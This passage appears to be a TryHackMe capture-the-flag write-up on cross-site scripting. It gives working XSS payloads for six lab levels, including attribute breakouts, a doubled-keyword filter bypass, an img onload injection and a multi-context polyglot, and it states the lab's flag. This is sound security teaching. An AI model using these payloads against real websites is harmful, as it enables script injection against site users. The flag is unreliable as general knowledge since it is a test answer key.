

Instead of entering your name, we're going to try entering the following JavaScript payload:

```shell
<script>alert('THM');</script>
```

Now, when you click the **Enter** button, you'll get an alert pop-up with the string "THM", and the page source will look like the following:



And then you'll get a confirmation message that your payload was successful, along with a link to the next level.

### Level Two

As in the previous level, you're being asked to enter your name again. This time, when clicking **Enter**, your name is being reflected in an `input` tag instead:



Viewing the page source, you can see your name reflected inside the value attribute of the `input` tag:



It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the `input` tag. Instead, we need to escape the `input` tag first so the payload can run properly. You can do this with the following payload:

```shell
"><script>alert('THM');</script>
```

The important part of the payload is the `">` which closes the `value` parameter and then closes the `input` tag.

This now closes the input tag properly and allows the JavaScript payload to run:



Now, when you click the **Enter** button, you'll get an alert pop-up with the string "THM". And then you'll get a confirmation message that your payload was successful, along with a link to the next level.

### Level Three

You're presented with another form asking for your name, and the same as the previous level, your name gets reflected inside an HTML tag, this time the `textarea` tag.



We'll have to escape the `textarea` tag a little differently from the `input` one (in Level Two) by using the following payload:

```shell
</textarea><script>alert('THM');</script>
```

This turns this:



Into this:



The important part of the above payload is `</textarea>`, which closes the textarea element so the script runs.

Now, when you click the **Enter** button, you'll get an alert pop-up with the string "THM", and then, you'll get a confirmation message that your payload was successful with a link to the next level.

### Level Four

Entering your name in the form will display it on the page. This level looks similar to Level One, but upon inspecting the page source, you'll see your name gets reflected in some JavaScript code.



You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload `';alert('THM');//`  which you'll see from the screenshot below, will execute your code. The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.



Now, when you click the **Enter** button, you'll get an alert pop-up with the string "THM", and then, you'll get a confirmation message that your payload was successful with a link to the next level.

### Level Five

Now, this level looks the same as level one, and your name also gets reflected in the same place. But if you try the `<script>alert('THM');</script>` payload, it won't work. When you view the page source, you'll see why.



The word `script`  gets removed from your payload because there is a filter that strips out potentially dangerous words.

When a word gets removed from a string, there's a helpful trick that you can try.

**Original payload**

```shell
<sscriptcript>alert('THM');</sscriptcript>
```

**Text to be removed (by the filter)**

```shell
script
```

**Final Payload (after passing the filter)**

```shell
<script>alert('THM');</script>
```

Try entering the payload `<sscriptcript>alert('THM');</sscriptcript>` and click the enter button, you'll get an alert pop-up with the string THM, and then, you'll get a confirmation message that your payload was successful with a link to the next level.

### Level Six

Similar to the Level Two, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>`, but that doesn't seem to work. Let's inspect the page source to see why that doesn't work.



You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the `img` tag. To get around the filter, we can leverage the additional attributes of the `img` tag, such as the onload event. The onload event executes the code of your choice when the image specified in the src attribute has loaded on the page.

Let's change our payload to reflect this `/images/cat.jpg" onload="alert('THM');`, and then view the page source to see how this will work.



Now, when you click the **Enter** button, you'll get an alert pop-up with the string "THM". And then you'll get a confirmation message that your payload was successful. At this last level, you'll receive a flag that you can enter below.

### Polyglots

An XSS polyglot is a string of text that can escape attributes and tags and bypass filters simultaneously. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```shell
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

### Questions

What is the flag you received from level six?

> THM{XSS_MASTER}

## Task 9. Summary


In this room, we explored the essential concepts and practical techniques behind **XSS**, one of the most common and dangerous vulnerabilities in modern web applications. We began by building a strong foundation, introducing key concepts such as JavaScript execution in the browser, the Document Object Model (DOM), cookies, and URL parameters. Understanding these elements is important because XSS attacks rely on how browsers interpret and execute client-side code.

We then walked through the different types of XSS step by step. Starting with **Reflected** XSS, we observed how malicious input embedded in a URL can be immediately reflected by the application and executed in a victim’s browser. Next, we explored **Stored** XSS, where attacker-controlled input is saved on the server, such as in comments or user profiles, and later executed whenever other users view that content. We also examined **DOM-Based** XSS, which occurs entirely on the client side when JavaScript improperly processes user-controlled data within the DOM, allowing attackers to inject and execute scripts without the server being directly involved.

Finally, we looked at **Blind** XSS, a powerful variant where the attacker may not see the immediate result of their payload. Instead, the malicious script executes later in a different user’s browser, often an administrator reviewing logs, support tickets, or moderation panels. This demonstrates how XSS can be exploited even when attackers do not have direct visibility of the vulnerable interface.

By the end of this journey, you will not only gain a practical understanding of how XSS vulnerabilities work but also develop the mindset of a penetration tester, learning to identify weak input handling, craft effective payloads, and consider the real-world impact of these flaws.

### Questions

I have successfully completed the room!

> No answer needed

---